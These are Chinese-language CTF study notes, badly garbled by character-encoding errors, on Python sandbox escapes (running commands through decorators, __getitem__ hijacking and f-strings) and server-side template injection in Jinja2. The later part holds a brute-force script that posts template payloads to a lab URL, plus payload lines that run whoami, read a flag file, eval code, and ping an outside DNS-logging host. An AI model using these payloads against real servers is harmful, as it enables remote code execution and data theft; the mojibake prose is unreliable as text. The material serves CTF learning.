`> < ! - +` 这几个比较简å•å°±ä¸è¯´äº†ã€‚

1. 逻辑è¿ç®—符：
   - `and`：逻辑ä¸
   - `or`：逻辑或
   - `not`：逻辑é
2. æˆå‘˜è¿ç®—符：
   - `in`：检查元素是å¦åœ¨ä¸€ä¸ªå®¹å™¨ä¸­
   - `not in`：检查元素是å¦ä¸åœ¨ä¸€ä¸ªå®¹å™¨ä¸­
3. 身份è¿ç®—符：
   - `is`：检查两个对象是å¦æ˜¯åŒä¸€ä¸ªå¯¹è±¡ï¼ˆæ¯”较对象的内存地å€ï¼‰
   - `is not`：检查两个对象是å¦ä¸æ˜¯åŒä¸€ä¸ªå¯¹è±¡
4. ä½è¿ç®—符：
   - `&`：按ä½ä¸
   - `|`：按ä½æˆ–
   - `^`：按ä½å¼‚或
   - `~`：按ä½å–å
   - `<<`：左移
   - `>>`：å³ç§»
5. 三元æ¡ä»¶è¿ç®—符：
   - `x if condition else y`：根æ®æ¡ä»¶é€‰æ‹© `x` 或 `y`

`==` å¯ä»¥ç”¨ `in` æ¥æ›¿æ¢ã€‚

æ›¿æ¢ `or` 的测试代ç 

```python
for i in [(100, 100, 1, 1), (100, 2, 1, 2), (100, 100, 1, 2), (100, 2, 1, 1)]:
    ans = i[0]==i[1] or i[2]==i[3]
    print(bool(eval(f'{i[0]==i[1]} | {i[2]==i[3]}')) == ans)
    print(bool(eval(f'- {i[0]==i[1]} - {i[2]==i[3]}')) == ans)
    print(bool(eval(f'{i[0]==i[1]} + {i[2]==i[3]}')) == ans)
```


上é¢è¿™å‡ ä¸ªè¡¨è¾¾å¼éƒ½å¯ä»¥æ›¿æ¢æ‰ `or`

æ›¿æ¢ `and` 的测试代ç 

```python
for i in [(100, 100, 1, 1), (100, 2, 1, 2), (100, 100, 1, 2), (100, 2, 1, 1)]:
    ans = i[0]==i[1] and i[2]==i[3]
    print(bool(eval(f'{i[0]==i[1]} & {i[2]==i[3]}')) == ans)
    print(bool(eval(f'{i[0]==i[1]} * {i[2]==i[3]}')) == ans)
```

上é¢è¿™å‡ ä¸ªè¡¨è¾¾å¼éƒ½å¯ä»¥æ›¿æ¢æ‰ `and`

>字符串拼æ¥
>
>- `+` æ“作符：使用 `+` æ“作符å¯ä»¥å°†ä¸¤ä¸ªå­—符串拼æ¥åœ¨ä¸€èµ·ã€‚
>
>```python
>pythonCopy codestr1 = "Hello, "
>str2 = "World!"
>result = str1 + str2
>print(result)  # 输出：Hello, World!
>```
>
>- `str.join()` 方法：该方法用äºå°†ä¸€ä¸ªå­—符串列表按照指定的分隔符è¿æ¥æˆä¸€ä¸ªå­—符串。
>
>```python
>pythonCopy codewords = ["Hello", "World", "Python"]
>result = " ".join(words)
>print(result)  # 输出：Hello World Python
>```
>
>- `str.format()` æ–¹æ³•ï¼šé€šè¿‡ä½¿ç”¨èŠ±æ‹¬å· `{}` å ä½ç¬¦ï¼Œå¯ä»¥å°†å˜é‡æˆ–表达å¼çš„值æ’入到字符串中。
>
>```python
>pythonCopy codename = "Alice"
>age = 30
>result = "My name is {} and I am {} years old.".format(name, age)
>print(result)  # 输出：My name is Alice and I am 30 years old.
>```
>
>- f-strings（格å¼åŒ–字符串字é¢å€¼ï¼‰ï¼šåœ¨ Python 3.6 åŠä»¥ä¸Šç‰ˆæœ¬ä¸­ï¼Œå¯ä»¥ä½¿ç”¨ f-strings æ¥è¿›è¡Œå­—符串æ’值。
>
>```python
>pythonCopy codename = "Alice"
>age = 30
>result = f"My name is {name} and I am {age} years old."
>print(result)  # 输出：My name is Alice and I am 30 years old.
>```
>
>- `%`æ“作符：使用 `%` æ“作符将å˜é‡æ’入到字符串中，使用 `%` æ“作符时，字符串中使用 `%s` 作为å ä½ç¬¦ï¼Œå®ƒè¡¨ç¤ºå°†å­—符串格å¼åŒ–为字符串形å¼ï¼Œ`%d` 表示格å¼åŒ–为整数形å¼ï¼Œ`%f` 表示格å¼åŒ–为浮点数形å¼ï¼Œç­‰ç­‰ã€‚然å，使用 `%` æ“作符将这些å˜é‡æ’入到字符串中。
>
>```python
>name = "Alice"
>age = 30
>
># 使用 % 进行字符串拼æ¥
>result = "My name is %s and I am %d years old." % (name, age)
>print(result)  # 输出：My name is Alice and I am 30 years old.
>```

######  é™åˆ¶ ( )

è¿™ç§æƒ…况下通常需è¦èƒ½å¤Ÿæ”¯æŒ exec 执行代ç ã€‚因为有两ç§å§¿åŠ¿ï¼š

- 利用装饰器 `@` * [这里](#Python中@的用法)
- 利用魔术方法，例如 `enum.EnumMeta.__getitem__`，

**利用`@`**

在 Python 中，除了通过 `()` 执行函数ã€åˆå§‹åŒ–类等之外，还有装饰器å¯ä»¥ç”¨äºè§¦å‘函数调用：

```python
 # 类修饰符å¯ä»¥åœ¨ç±»å®šä¹‰ä¹‹å‰ä½¿ç”¨ï¼Œä½œç”¨äºæ•´ä¸ªç±»ã€‚当定义类时，修饰符函数会在类创建时被调用，且åªè°ƒç”¨ä¸€æ¬¡ã€‚
def base1(a):
    print(f"base1 -> {a}")
    return a


def base2(cls):
    print(f"base2 -> {cls}")
    return "hello"

@base1
@base2
class MyClass:
    pass

"""
结æœ
base2 -> <class '__main__.MyClass'>
base1 -> hello
"""
```

`MyClass`先传到`base2`，`base2`return的结æœä½œä¸º`base1`çš„å‚数传入，如æœä¸ç”¨æ‹¬å·åˆ›å»ºå‡½æ•°ï¼Œå°±è¦ç”¨åˆ°åŒ¿å函数`lambda`

```python
from os import system

a = lambda b: 'whoami'

@system
@a
class MyClass:
    pass

"""
结æœï¼šdesktop-13qds1a\lenovo
"""
```

先调用`lambda`函数`a`，函数`a`å†è¿”å›payloadç»™`system`调用

**利用魔术方法**

```python
from os import system


class x:
    def __getitem__(self, x):
        system(x)


# 上é¢è¿™ä¸ªå†™æ³•å¯ä»¥æ”¹å†™ä¸ºï¼š
class x: pass
x.__getitem__ = system


x()["whoami"]
"""
结æœï¼šdesktop-13qds1a\lenovo
"""
```

但是因为ä¸èƒ½ç”¨`()`å®ä¾‹åŒ–类，所以我们需è¦åœ¨æ ‡å‡†åº“里寻找一个模å—，这个模å—必须包å«æŸä¸ªç±»ä»¥åŠè¿™ä¸ªç±»çš„å®ä¾‹ã€‚符åˆè¿™ç§æ¡ä»¶çš„库一般是一ç§ç±»å‹ã€‚比如 `enum`，`enum.Enum` 是 `enum.EnumMeta` 的一个å­ç±»ï¼š



```python
import enum
from os import system

enum.EnumMeta.__getitem__ = system
enum.Enum['whoami']
```

类似的库还有：`reprlib`:



```python
import reprlib
from os import system

reprlib.Repr.__getitem__ = system
reprlib.aRepr['chcp 65001']
reprlib.aRepr['dir']
```


>`__new__`方法是 Python 中的一个特殊方法，用äºåˆ›å»ºå¯¹è±¡ã€‚它是类的内置é™æ€æ–¹æ³•ï¼Œè´Ÿè´£åœ¨å†…存中为一个新对象分é…空间，并返å›è¯¥å¯¹è±¡çš„引用。
>
>在 Python 中，对象的创建通常是通过调用类的æ„造函数 `__init__` å®ç°çš„。`__init__` 方法用äºå¯¹å®ä¾‹è¿›è¡Œåˆå§‹åŒ–æ“作，而 `__new__` 方法则用äºå®é™…的对象创建。
>
>当我们创建一个类的å®ä¾‹æ—¶ï¼ŒPython 解释器会首先调用 `__new__` 方法æ¥åˆ›å»ºä¸€ä¸ªæ–°çš„å®ä¾‹å¯¹è±¡ï¼Œå¹¶å°†è¯¥å®ä¾‹å¯¹è±¡ä½œä¸ºç¬¬ä¸€ä¸ªå‚数传递给 `__init__` 方法。然å，`__init__` 方法在这个å®ä¾‹å¯¹è±¡ä¸Šæ‰§è¡Œåˆå§‹åŒ–æ“作。
>
>```python
>class MyClass:
>    def __new__(cls, *args, **kwargs):
>        # 创建一个新的对象å®ä¾‹
>        instance = super().__new__(cls)
>        print("Creating a new instance.")
>        return instance
>
>    def __init__(self, x):
>        self.x = x
>        print("Initializing the instance.")
>
>obj = MyClass(42)
>"""
>在 __new__ 方法中，使用 super().__new__(cls) 创建了一个新的对象å®ä¾‹ï¼Œå¹¶è¿”å›è¯¥å®ä¾‹ã€‚然å，__init__ 方法被调用，用äºåˆå§‹åŒ–对象的å±æ€§ã€‚
>"""
>```

>元类
>
>元类（metaclass）是一ç§é«˜çº§çš„概念，用äºæ§åˆ¶ç±»çš„创建过程。元类å…许你在定义类时定制类的创建行为，类似äºç±»æ˜¯ç”¨äºåˆ›å»ºå¯¹è±¡çš„模æ¿ï¼Œè€Œå…ƒç±»æ˜¯ç”¨äºåˆ›å»ºç±»çš„模æ¿ã€‚
>
>Python 中的æ¯ä¸ªç±»éƒ½æœ‰ä¸€ä¸ªå…ƒç±»ï¼Œå¦‚æœæ²¡æœ‰æ˜¾å¼åœ°æŒ‡å®šå…ƒç±»ï¼ŒPython 会使用默认的元类 `type` æ¥åˆ›å»ºç±»ã€‚默认情况下，所有的类都是直æ¥æˆ–é—´æ¥åœ°ç»§æ‰¿è‡ª `object` 类，而 `object` 类是由 `type` 元类创建的。
>
>使用元类å¯ä»¥å®ç°ä¸€äº›é«˜çº§çš„功能，例如：
>
>1. 自定义类的创建行为：你å¯ä»¥å®šä¹‰è‡ªå·±çš„元类æ¥æ§åˆ¶ç±»çš„创建过程，例如修改类的å±æ€§ã€æ–¹æ³•ï¼Œæ·»åŠ é¢å¤–的功能等。
>
>   ```python
>   class MyMeta(type):
>       def __new__(cls, name, bases, dct):
>           # 在类创建之å‰ï¼Œä¿®æ”¹ç±»çš„å±æ€§
>           dct['x'] = 42
>           return super().__new__(cls, name, bases, dct)
>   
>   class MyClass(metaclass=MyMeta):
>       pass
>   
>   print(MyClass.x)  # 输出：42
>   ```
>
>   
>
>2. é™åˆ¶ç±»çš„定义：通过定义元类，你å¯ä»¥åœ¨ç±»å®šä¹‰æ—¶æ‰§è¡Œç‰¹å®šçš„检查或æ“作，ä»è€Œé™åˆ¶ç±»çš„定义。
>
>   ```python
>   class RestrictedMeta(type):
>       def __new__(cls, name, bases, dct):
>           print("RestrictedMeta -> new")
>           # 在创建类对象之å‰æ‰§è¡Œä¸€äº›æ“作，例如修改类å±æ€§
>           if name == 'RestrictedClass':
>               dct['secret'] = 42
>           print(f"super(cls, cls).__new__(cls, name, bases, dct) -> {super(cls, cls).__new__(cls, name, bases, dct)}")
>           print(f"cls.__mro__ -> {cls.__mro__}")
>           return super(cls, cls).__new__(cls, name, bases, dct)
>   
>       def __init__(cls, name, bases, dct):
>           super().__init__(name, bases, dct)
>           print("RestrictedMeta -> init")
>           if 'secret' not in dct:
>               raise ValueError("Class must have a 'secret' attribute.")
>   
>   
>   class RestrictedClass(metaclass=RestrictedMeta):
>       def __new__(cls, *args, **kwargs):
>           # 创建一个新的对象å®ä¾‹
>           instance = super().__new__(cls)
>           print("RestrictedClass -> new")
>           return instance
>   
>   
>   print("å®ä¾‹åŒ– -> RestrictedClass")
>   RestrictedClass()
>   
>   # class Restricted2Class(metaclass=RestrictedMeta):
>   #     secret = 43
>   
>   # # 下é¢çš„代ç ä¼šæŠ›å‡º ValueError，因为没有定义 'secret' å±æ€§
>   # try:
>   #     class AnotherClass(metaclass=RestrictedMeta):
>   #         pass
>   # except ValueError:
>   #     print("AnotherClass -> " + str(ValueError))
>   
>   ```
>
>   
>
>3. 创建å•ä¾‹æ¨¡å¼ï¼šä½¿ç”¨å…ƒç±»ï¼Œä½ å¯ä»¥ç¡®ä¿ç±»åªæœ‰ä¸€ä¸ªå®ä¾‹ã€‚
>
>   ```python
>   class SingletonMeta(type):
>       _instances = {}
>   
>       def __call__(cls, *args, **kwargs):
>           if cls not in cls._instances:
>               cls._instances[cls] = super().__call__(*args, **kwargs)
>           return cls._instances[cls]
>   
>   class SingletonClass(metaclass=SingletonMeta):
>       def __init__(self, value):
>           self.value = value
>   
>   obj1 = SingletonClass(42)
>   obj2 = SingletonClass(99)
>   
>   print(obj1 is obj2)  # 输出：True，因为 obj1 å’Œ obj2 引用的是åŒä¸€ä¸ªå®ä¾‹
>   print(obj1.value)    # 输出：42
>   print(obj2.value)    # 输出：42
>   ```
>
>   
>
>以下是元类中一些常用的魔法方法åŠå…¶ä½œç”¨ï¼š
>
>1. `__new__(cls, name, bases, dct)`：
>   - 该方法在**创建类**时被调用，并返å›**类对象**çš„å®ä¾‹ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `name` 是è¦åˆ›å»ºçš„类的å称。
>   - å‚æ•° `bases` 是类的基类，å³çˆ¶ç±»ã€‚
>   - å‚æ•° `dct` 是类的å±æ€§å­—典，包å«äº†åœ¨ç±»å®šä¹‰ä¸­å®šä¹‰çš„所有类å±æ€§å’Œæ–¹æ³•ã€‚
>   - 通过é‡å†™ `__new__` 方法，你å¯ä»¥è‡ªå®šä¹‰ç±»çš„创建过程，包括修改类的å±æ€§ã€æ–¹æ³•ç­‰ã€‚
>2. `__init__(cls, name, bases, dct)`：
>   - 该方法在**创建类**时被调用，用äºåˆå§‹åŒ–**类对象**。
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `name` 是è¦åˆ›å»ºçš„类的å称。
>   - å‚æ•° `bases` 是类的基类，å³çˆ¶ç±»ã€‚
>   - å‚æ•° `dct` 是类的å±æ€§å­—典，包å«äº†åœ¨ç±»å®šä¹‰ä¸­å®šä¹‰çš„所有类å±æ€§å’Œæ–¹æ³•ã€‚
>   - 在 `__init__` 方法中，通常ä¸éœ€è¦è¿”å›ä»»ä½•å€¼ï¼Œå®ƒç”¨äºæ‰§è¡Œé¢å¤–çš„ç±»åˆå§‹åŒ–æ“作。
>3. `__call__(cls, *args, **kwargs)`：
>   - 该方法在**创建类**çš„å®ä¾‹æ—¶è¢«è°ƒç”¨ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `*args` å’Œ `**kwargs` 是创建å®ä¾‹æ—¶ä¼ é€’çš„å‚数。
>   - 通过é‡å†™ `__call__` 方法，你å¯ä»¥è‡ªå®šä¹‰å®ä¾‹çš„创建过程，例如å®ç°å•ä¾‹æ¨¡å¼æˆ–æ§åˆ¶å®ä¾‹çš„åˆå§‹åŒ–。
>4. `__prepare__(name, bases, **kwargs)`：
>   - 该方法在创建类时被调用，用äºå‡†å¤‡ç±»çš„å±æ€§å­—典。
>   - å‚æ•° `name` 是è¦åˆ›å»ºçš„类的å称。
>   - å‚æ•° `bases` 是类的基类，å³çˆ¶ç±»ã€‚
>   - å‚æ•° `**kwargs` å¯ä»¥æ¥æ”¶é¢å¤–的关键字å‚数。
>   - 通过é‡å†™ `__prepare__` 方法，你å¯ä»¥è‡ªå®šä¹‰ç±»çš„å±æ€§å­—典，用äºå­˜å‚¨ç±»çš„æˆå‘˜ã€‚
>5. `__setattr__(cls, name, value)`：
>   - 该方法在给类设置å±æ€§æ—¶è¢«è°ƒç”¨ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `name` 是å±æ€§å。
>   - å‚æ•° `value` 是å±æ€§çš„值。
>   - 通过é‡å†™ `__setattr__` 方法，你å¯ä»¥åœ¨ç±»åˆ›å»ºæ—¶å¯¹å±æ€§è¿›è¡Œç‰¹å®šçš„é™åˆ¶æˆ–æ“作。
>6. `__getattribute__(cls, name)`：
>   - 该方法在è·å–类的å±æ€§æ—¶è¢«è°ƒç”¨ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `name` 是å±æ€§å。
>   - 通过é‡å†™ `__getattribute__` 方法，你å¯ä»¥åœ¨è·å–å±æ€§æ—¶æ‰§è¡Œé¢å¤–çš„æ“作，例如记录日志或进行特定的处ç†ã€‚
>7. `__instancecheck__(cls, instance)`：
>   - 该方法在使用 `isinstance()` 检查类的å®ä¾‹æ—¶è¢«è°ƒç”¨ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `instance` 是è¦æ£€æŸ¥çš„å®ä¾‹å¯¹è±¡ã€‚
>   - 通过é‡å†™ `__instancecheck__` 方法，你å¯ä»¥è‡ªå®šä¹‰ç±»çš„å®ä¾‹æ£€æŸ¥è¡Œä¸ºã€‚
>8. `__subclasscheck__(cls, subclass)`：
>   - 该方法在使用 `issubclass()` 检查类的å­ç±»æ—¶è¢«è°ƒç”¨ã€‚
>   - å‚æ•° `cls` 是元类本身。
>   - å‚æ•° `subclass` 是è¦æ£€æŸ¥çš„å­ç±»ã€‚
>   - 通过é‡å†™ `__subclasscheck__` 方法，你å¯ä»¥è‡ªå®šä¹‰ç±»çš„å­ç±»æ£€æŸ¥è¡Œä¸ºã€‚
>
>元类中`__new__`å’Œ`__init__`的调用是在创建类也就是类定义时调用，而ä¸æ˜¯å®ä¾‹åŒ–类，返å›çš„也是类对象，而ä¸æ˜¯ç±»çš„å®ä¾‹
>
>
>
>

###### 利用f-string

```
>>> f'{__import__("os").system("whoami")}'
macr0phag3
'0'
```


## SSTI

[X3NNY/sstilabs: A lab to help you learning SSTI (github.com)](https://github.com/X3NNY/sstilabs)

### SSTI简介

SSTI就是æœåŠ¡å™¨æ¨¡æ¿æ³¨å…¥ 当å‰ä½¿ç”¨çš„一些框æ¶ï¼Œæ¯”如pythonçš„flask，phpçš„tp，javaçš„spring等一般都采用æˆç†Ÿçš„MVC的模å¼ï¼Œç”¨æˆ· 的输入先进入Controlleræ§åˆ¶å™¨ï¼Œç„¶åæ ¹æ®è¯·æ±‚ç±»å‹å’Œè¯·æ±‚的指令å‘é€ç»™å¯¹åº”Model业务模å‹è¿›è¡Œä¸šåŠ¡é€»è¾‘ 判断，数æ®åº“å­˜å–，最å把结æœè¿”å›ç»™View视图层，ç»è¿‡æ¨¡æ¿æ¸²æŸ“展示给用户。

æ¼æ´æˆå› å°±æ˜¯æœåŠ¡ç«¯æ¥æ”¶äº†ç”¨æˆ·çš„æ¶æ„输入以å，未ç»ä»»ä½•å¤„ç†å°±å°†å…¶ä½œä¸º Web 应用模æ¿å†…容的一部分， 模æ¿å¼•æ“在进行目标编译渲染的过程中，执行了用户æ’入的å¯ä»¥ç ´å模æ¿çš„语å¥ï¼Œå› è€Œå¯èƒ½å¯¼è‡´äº†æ•æ„Ÿä¿¡æ¯ 泄露ã€ä»£ç æ‰§è¡Œã€GetShell 等问题。其影å“范围主è¦å–决äºæ¨¡ç‰ˆå¼•æ“çš„å¤æ‚性。

凡是使用模æ¿çš„地方都å¯èƒ½ä¼šå‡ºç° SSTI 的问题，SSTI ä¸å±äºä»»ä½•ä¸€ç§è¯­è¨€ï¼Œæ²™ç›’绕过也ä¸æ˜¯ï¼Œæ²™ç›’ç»•è¿‡åª æ˜¯ç”±äºæ¨¡æ¿å¼•æ“å‘ç°äº†å¾ˆå¤§çš„安全æ¼æ´ï¼Œç„¶å模æ¿å¼•æ“设计出æ¥çš„一ç§é˜²æŠ¤æœºåˆ¶ï¼Œä¸å…许使用没有定义或者 声æ˜çš„模å—，这适用äºæ‰€æœ‰çš„模æ¿å¼•æ“。

### 模æ¿æ˜¯ä»€ä¹ˆ

模æ¿å¼•æ“（特指webå¼€å‘的模æ¿å¼•æ“）是为了使用户界é¢ä¸ä¸šåŠ¡æ•°æ®ï¼ˆå†…容）分离而产生的，他å¯ä»¥ç”Ÿæˆç‰¹ 定格å¼çš„文档，用äºç½‘站的模æ¿å¼•æ“就会生æˆä¸€ä¸ªæ ‡å‡†çš„HTML文档。 模æ¿å¼•æ“会æä¾›ä¸€å¥—ç”Ÿæˆ HTML 代ç çš„程åºï¼Œç„¶ååªéœ€è¦è·å–用户的数æ®ï¼Œç„¶å放到渲染函数里，然åç”Ÿæˆ æ¨¡æ¿+用户数æ®çš„å‰ç«¯ HTML 页é¢ï¼Œç„¶åå馈给æµè§ˆå™¨ï¼Œå‘ˆç°åœ¨ç”¨æˆ·é¢å‰ã€‚ 它å¯ä»¥ç†è§£ä¸ºä¸€æ®µå›ºå®šå¥½æ ¼å¼ï¼Œç­‰ç€ä½ æ¥å¡«å……ä¿¡æ¯çš„文件。通过这ç§æ–¹æ³•ï¼Œå¯ä»¥åšåˆ°é€»è¾‘ä¸è§†å›¾åˆ†ç¦»ï¼Œæ›´å®¹ 易ã€æ¸…楚且相对安全地编写å‰å端ä¸åŒçš„逻辑。

### æ¼æ´æˆå› 

ssti主è¦ä¸ºpythonçš„ä¸€äº›æ¡†æ¶ jinja2 mako tornado django，PHP框æ¶smarty twig，java框æ¶jade velocity 等等使用了渲染函数时，由äºä»£ç ä¸è§„范或信任了用户输入而导致了æœåŠ¡ç«¯æ¨¡æ¿æ³¨å…¥ï¼Œæ¨¡æ¿æ¸²æŸ“å…¶å®å¹¶æ²¡æœ‰ æ¼æ´ï¼Œä¸»è¦æ˜¯ç¨‹åºå‘˜å¯¹ä»£ç ä¸è§„范ä¸ä¸¥è°¨é€ æˆäº†æ¨¡æ¿æ³¨å…¥æ¼æ´ï¼Œé€ æˆæ¨¡æ¿å¯æ§ã€‚

### SSTI基础知识

##### Python-flask模æ¿

Python-Flask使用Jinja2ä½œä¸ºæ¸²æŸ“å¼•æ“ ï¼ˆJinja2.10.x Documention）

 jinja2是Flask作者开å‘的一个模æ¿ç³»ç»Ÿï¼Œèµ·åˆæ˜¯ä»¿django模æ¿çš„一个模æ¿å¼•æ“，为Flaskæ供模æ¿æ”¯æŒï¼Œç”± äºå…¶çµæ´»ï¼Œå¿«é€Ÿå’Œå®‰å…¨ç­‰ä¼˜ç‚¹è¢«å¹¿æ³›ä½¿ç”¨ã€‚

在jinja2中，存在三ç§è¯­æ³•ï¼š

```
æ§åˆ¶ç»“æ„ ，也å¯ä»¥ç”¨æ¥å£°æ˜å˜é‡ï¼ˆ）
å˜é‡å–值 {{ }}，比如输入 1+1，2*2，或者是字符串ã€è°ƒç”¨å¯¹è±¡çš„方法，都会渲染出执行的结æœ
{# ... #} 表示未包å«åœ¨æ¨¡æ¿è¾“出中的注释
在模æ¿æ³¨å…¥ä¸­ï¼Œä¸»è¦ä½¿ç”¨çš„是{{}} å’Œ 
检测是å¦å­˜åœ¨ssti
在urlåé¢ï¼Œæˆ–是å‚数中添加 {{ 6*6 }} ，查看返å›çš„页é¢ä¸­æ˜¯å¦æœ‰ 36
```

jinja2模æ¿ä¸­ä½¿ç”¨ {{ }} 语法表示一个å˜é‡ï¼Œå®ƒæ˜¯ä¸€ç§ç‰¹æ®Šçš„å ä½ç¬¦ã€‚当利用jinja2进行渲染的时候，它会把这些特殊的å ä½ç¬¦è¿›è¡Œå¡«å……/替æ¢ï¼Œjinja2支æŒpython中所有的Pythonæ•°æ®ç±»å‹æ¯”如列表ã€å­—段ã€å¯¹è±¡ç­‰ï¼Œè¢«ä¸¤ä¸ªæ‹¬å·åŒ…裹的内容会输出其表达å¼çš„值。

###### 过滤器

jinja2中的过滤器å¯ä»¥ç†è§£ä¸ºæ˜¯jinja2里é¢çš„内置函数和字符串处ç†å‡½æ•°ï¼Œç”¨äºä¿®é¥°å˜é‡ï¼Œç”šè‡³æ”¯æŒå‚æ•° `range(10)|join(', ')`；以åŠé“¾å¼è°ƒç”¨ï¼Œåªéœ€è¦åœ¨å˜é‡åé¢ä½¿ç”¨ç®¡é“符 `|` 分割，å‰ä¸€ä¸ªè¿‡æ»¤å™¨çš„输出会作为å一个过滤器的输入，例如，`{{ name|striptags|title }}` 会移除 HTML Tags，并且进行 title-case 转化，这个过滤器翻译为 Python 的语法就是 `title(striptags(name))`。

###### å®

jinja2中还有å®ï¼Œå®å…许你定义一组代ç ï¼Œå¹¶åœ¨æ¨¡æ¿ä¸­å¤šæ¬¡è°ƒç”¨å®ƒï¼Œç±»ä¼¼äºå‡½æ•°ã€‚

使用 `macro` 关键字，并指定å®çš„å称和å‚数列表。然å，在模æ¿ä¸­ä½¿ç”¨ `call` 关键字æ¥è°ƒç”¨å®ï¼Œå¹¶ä¼ é€’相应的å‚数。

```jinja2

    Hello, {{ name }}!




```

还能够设置默认å‚æ•°

```jinja2

    {{ greeting }}, {{ name }}!




```

###### 模æ¿ç»§æ‰¿

模æ¿ç»§æ‰¿å…许我们创建一个骨æ¶æ–‡ä»¶ï¼Œå…¶ä»–文件ä»è¯¥éª¨æ¶æ–‡ä»¶ç»§æ‰¿ã€‚并且还支æŒé’ˆå¯¹è‡ªå·±éœ€è¦çš„地方进行修改。

jinja2 的骨æ¶æ–‡ä»¶ä¸­ï¼Œåˆ©ç”¨ `block` 关键字表示其包涵的内容å¯ä»¥è¿›è¡Œä¿®æ”¹ã€‚

base.html

```html
<head>
    
    <title> - Home</title>
    
</head>

<body>
    <div id="content"></div>
    <div id="footer">
        
        <script>This is javascript</script>
        
    </div>
</body>
```

sub.html继承base.html的模æ¿ï¼š

```html
  <!-- 继承 -->

 Hello   <!-- title 自定义 -->


    {{ super() }}  <!-- 用äºè·å–åŸæœ‰çš„ä¿¡æ¯ -->
    <style type='text/css'>
    .important { color: #FFFFFF }
    </style>
   
 
<!-- 其他ä¸ä¿®æ”¹çš„åŸå°ä¸åŠ¨çš„继承 -->
```


##### Python中的一些 Magic Method

在Python中，所有以“â€åŒä¸‹åˆ’线包起æ¥çš„方法，都统称为“Magic Methodâ€ï¼Œä¸­æ–‡ç§°ã€é­”术方法ã€,例如类的 åˆå§‹åŒ–方法`__init__`

一些åšSSTI类题目时常用的å±æ€§å’Œæ–¹æ³•

```
å±æ€§
__class__：用äºè·å–当å‰å¯¹è±¡æ‰€å¯¹åº”çš„ç±»
__base__：用äºè·å–该类的直æ¥çˆ¶ç±»ï¼ˆåŸºç±»ï¼‰
__bases__：返å›ä¸€ä¸ªç±»ç›´æ¥æ‰€ç»§æ‰¿çš„类（元组形å¼ï¼‰
__mro__：返å›ä¸€ä¸ªç±»æ‰€ç»§æ‰¿çš„所有类
__dict__：返å›å½“å‰ç±»çš„函数ã€å…¨å±€å˜é‡ã€å±æ€§ç­‰
__init__：用äºå°†å¯¹è±¡å®ä¾‹åŒ–，所有类都具有 __init__ 方法，便äºåˆ©ç”¨å®ƒæ¥ä½œä¸ºè·³æ¿è®¿é—® __globals__
__globals__：function.__globals 用äºè·å–function所处空间下å¯ä½¿ç”¨çš„moduleã€æ–¹æ³•ä»¥åŠæ‰€æœ‰å˜é‡
__builtins__：è·å–python内置的方法比如ordã€chrç­‰
方法
__subclasses__：返å›è¯¥ç±»çš„所有直æ¥å­ç±»
__import__：动æ€åŠ è½½ç±»å’Œå‡½æ•°ï¼Œä¹Ÿå°±æ˜¯å¯¼å…¥æ¨¡å—，ç»å¸¸ç”¨äºå¯¼å…¥os模å—
__getattribute__：在访问对象的å±æ€§æ—¶è¿›è¡Œè‡ªå®šä¹‰å¤„ç†ã€‚无论对象中的å±æ€§æ˜¯å¦å­˜åœ¨ï¼Œåªè¦è®¿é—®å¯¹è±¡çš„å±æ€§ï¼Œå°±ä¼šæ— æ¡ä»¶è¿›å…¥
__getattr__：访问对象中ä¸å­˜åœ¨çš„å±æ€§æ—¶è¿›è¡Œå¤„ç†ã€‚当对象中没有被访问的å±æ€§æ—¶ï¼ŒPython解释器会自动调用该方法
```

爆破需è¦çš„模å—çš„EXP：

```Python
import requests
from lxml import html

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36',
}

url = "http://192.168.159.128:50000/level/1"

NUM = 500

if __name__ == "__main__":

    # # 查找类
    # find_class = "importlib"
    # for i in range(NUM):
    #
    #     data_class1 = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
    #     }
    #
    #     res = requests.post(url=url, data=data_class1, headers=headers)
    #     if find_class in res.text:
    #         tree = html.fromstring(res.text)
    #         print(str(i) + " -> " + tree.text)

    # 查找类方法
    find_method = "load_module"
    for i in range(NUM):

        data_method = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d].__init__.__globals__}}" % i
        }

        data_class = {
            'code': "{{().__class__.__bases__[0].__subclasses__()[%d]}}" % i
        }

        res = requests.post(url=url, data=data_method, headers=headers)
        if find_method in res.text:
            res2 = requests.post(url=url, data=data_class, headers=headers)
            tree = html.fromstring(res2.text)
            print(str(i) + " -> " + tree.text)

    # # 查看内置函数
    # for i in range(NUM):
    #     data_builtins = {
    #         'code': "{{().__class__.__bases__[0].__subclasses__()[%i].__init__.__globals__['__builtins__']}}" % i
    #     }
    #
    #     res3 = requests.post(url=url, data=data_builtins, headers=headers)
    #     if res3.text != "Hello " and res3.text != "No this level":
    #         print(html.fromstring(res3.text).text.replace("\n", "ã€å›è½¦ã€‘"))
    #         break

    # # 查看æŸä¸ªç±»çš„__globals__
    # data_globals = {
    #     'code': "{{().__class__.__bases__[0].__subclasses__()[" + str(133) + "].__init__.__globals__}}"
    # }
    #
    # res3 = requests.post(url=url, data=data_globals, headers=headers)
    # if res3.text != "Hello " and res3.text != "No this level":
    #     print(html.fromstring(res3.text).text.replace("\n", "ã€å›è½¦ã€‘"))

```




```
<class 'os._wrap_close'>类：
利用popen()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['popen']('whoami').read()
利用system()执行命令：().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['system']('ping 78319.UOFOS5Q7RU.dns.xms.la')

通过__builtins__è·å–内置方法，能够调用__builtins__å³å¯ï¼Œæµ‹è¯•å¾ˆå¤šç±»éƒ½èƒ½å¤Ÿè°ƒç”¨ï¼š
利用eval()执行命令：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat ./flag").read()')
通过open()查看flag：().__class__.__bases__[0].__subclasses__()[465].__init__.__globals__['__builtins__']['open']('./flag', 'r').read()

<class 'subprocess.Popen'>类：
利用subprocess.run()执行命令：().__class__.__bases__[0].__subclasses__()[396].__init__.__globals__['run']('whoami', capture_output=True, text=True).stdout
